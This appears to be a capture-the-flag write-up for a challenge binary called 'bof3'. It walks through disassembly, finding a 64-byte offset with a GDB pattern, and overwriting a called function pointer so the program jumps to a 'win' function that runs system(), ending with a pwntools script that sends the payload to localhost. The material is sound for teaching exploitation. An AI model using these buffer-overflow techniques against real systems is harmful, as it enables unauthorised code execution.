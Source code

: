 # Bof3 Writeup

## Recon
The first step to breaking this binary is to get the ASM output of the binary. This can be done through: `objdump -d -M intel bof3 > bof3.asm`. After is done, you can begin determining which functions are breakable in GDB.

As we scroll through the asm file in an editor of your choice, we will see that there are `win, lose, and main` functions. These are the functions in which we will need to set breakpoints so that we can begin to walk the code execution paths.

## Vulnerability Analysis
Looking at the individual functions, we can begin to see the general idea for the code execution path of the program.

Within the main function, we can see references to the lose function:

Register values at this instruction:
```asm
EAX: 0x80484b4 (<lose>:	push   ebp)
EBX: 0xf7fc1ff4 --> 0x1a2d7c 
ECX: 0x1 
EDX: 0xf7fc38c4 --> 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0xffffd1b8 --> 0x0 
ESP: 0xffffd150 --> 0x80485fd --> 0x1007325 
EIP: 0x80484fc (<main+42>:	call   eax)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
```
ASM:
```asm
   0x804851c <main+41>:	add    esp,0x10
   0x804851f <main+44>:	mov    eax,DWORD PTR [ebp-0xc]
=> 0x8048522 <main+47>:	call   eax                         ; This is the point in which it calls the address of lose
```
Based on this, we can tell that we need to overwrite the code execution path so that we do not hit the lose function. In this case, it requires us overwritting the value of `EAX` to point to the `win` function before we get to the `call eax` instruction.

## Exploitation
Given that we know this program accepts input through scanf, we can assume we have a buffer that will be storing whatever we enter into the program. This means that we may have the opportunity to overflow the buffer to gain control of the stack, which is required to modify the value of `EAX` before the `call eax` instruction.

To exploit this type of program, one of the easiest way to get a rough estimate of how much data to send to the program to hit a buffer overflow is to look at the prologue:
```asm
   0x80484d2 <main>:	push   ebp
   0x80484d3 <main+1>:	mov    ebp,esp
   0x80484d5 <main+3>:	and    esp,0xfffffff0
   0x80484d8 <main+6>:	sub    esp,0x60
```
Based on this we can see that we were allocated roughly 96 bytes on the stack for variables/operations (indicated by `sub esp,0x60`). Therefore, we can now get a rough estimate for how many characters we need to send to the program to get undefined behaviour (in this case, I use 100).

One of the easiest ways to figure out how many characters it takes to get to the value of EAX on the stack is to use the `pattern` command in gdb:
```sh
gdb-peda$ pattern create 100 u_pattern.txt
Writing pattern of 100 chars to filename "u_pattern.txt"
```
This creates a pattern string of unique sequences that we can enter as input to our program while it is running in gdb. This allows us to search for the index of a particular sequence we find in the eax register after we input the string into the program. This index then gives us the indication as to how many characters are needed before we can overwrite the address in `EAX`.

To use this pattern in gdb, you set your breakpoints and run: `r < u_pattern.txt`. Once this is done, you can now `next` until you hit the `call eax` instruction. Once there, you can observe that the `EAX` register contains the value of a sequence within your pattern string, instead of the address to `lose`. In order to make this useful to you, you must save this sequence (copy it into gedit/nano/notepad/etc) to find the index for later on. In my case, the sequence was:
```asm
EAX: 0x41644141 ('AAdA')
```
Now that we have the sequence, we now have to find out what index this is within the pattern string. To do this, we can do the following:
```sh
$ cat u_pattern.txt
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
```
This will allow us to copy down our entire pattern string, which we will need so that we can find the index of our sequence within it. To find the index, I use python and the `.index()` function on a string type, as seen below:
```sh
$ python
Python 2.7.3 (default, Jun 22 2015, 19:33:41) 
[GCC 4.6.3] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL".index("AAdA")
64
>>> exit()
```
This allows us to see that it took 64 bytes to reach the value of `EAX` on the stack before the `call eax` instruction. Knowing this, we can now build our exploit string. Since we know that it takes 64 bytes to reach the address read into `EAX`, we can send 64 bytes of whatever character we want. In my case, i use the character `"A"`. We then append the packed address of the `win` function, which contains a system call, to our exploit string. This will allow us to call the `win` function, instead of the `lose` function. Therefore, we will take advantage of the `pwntools` module for the `p32` function to pack our function's address. Therefore, we would use `p32(0x08048494)` to get the packed value of the win function address.

Once we are done with this, we can test our exploit by doing:
```sh
$ python -c "from pwn import *; print ('A' * 64) + p32(0x08048494)" > exploit_string.txt
```
followed by opening gdb with the executable again, resetting the breakpoints, and running with `r < exploit_string.txt` to now supply the input with our exploit string. You can then next all the way to the `call eax` instruction. Once there, you can see how we now have the address of the `win` function in `EAX`. Therefore, if you hit `next` once again, we should now be within the `win` function:
```asm
=> 0x804849a <win+6>:	mov    DWORD PTR [esp],0x80485e0
   0x80484a1 <win+13>:	call   0x8048380 <puts@plt>
   0x80484a6 <win+18>:	mov    DWORD PTR [esp],0x80485ea
   0x80484ad <win+25>:	call   0x8048390 <system@plt>
   0x80484b2 <win+30>:	leave
```
Therefore, if we continue stepping through the function, we should hit the line:
```asm
   0x80484ad <win+25>:	call   0x8048390 <system@plt>
```
which will provide us shell access in our program. Now, it is notable that we will not get shell access within GDB. however, we know that we hit the system call, which is all that really matters right now, as we now know that we are able to modify the code execution path to hit the system call. An example of what you may see in GDB once you hit the system call is as follows:
```sh
[New process 3372]
process 3372 is executing new program: /bin/dash
warning: Selected architecture i386:x86-64 is not compatible with reported target architecture i386
Architecture of file not recognized.
```

If we actually want to be able to get a shell, this will require us building a script to connect to this program running on localhost. Therefore, you will need to have `socat` running on your local so that you can connect to yourself through your exploit script.

Now, there is a copy of the exploit script within this directory of the repository that you can actively run instead of having to copy and paste the following excerpts, however, for the sake of clarity, I will be walking through the exploit script breifly:

First of all, you must import `pwntools`:
```py
from pwn import *
```
This imports all of the pwntool modules into the local namespace in python. You then need to set up your remote connection to connect to whatever IP and PORT you are listening to on `socat` (in my case, its `localhost:1234`):
```py
r = remote("localhost", 1234)
```
You then need to create your exploit to send to the application listening on this address:
```py
exploit = ("A" * 64) + p32(0x08048494)
```
Finally, you send your string to the application, and call the `.interactive()` function to create an interactive shell:
```py
r.send(exploit)
r.interactive()
```
There you go! You just owned the challenge!
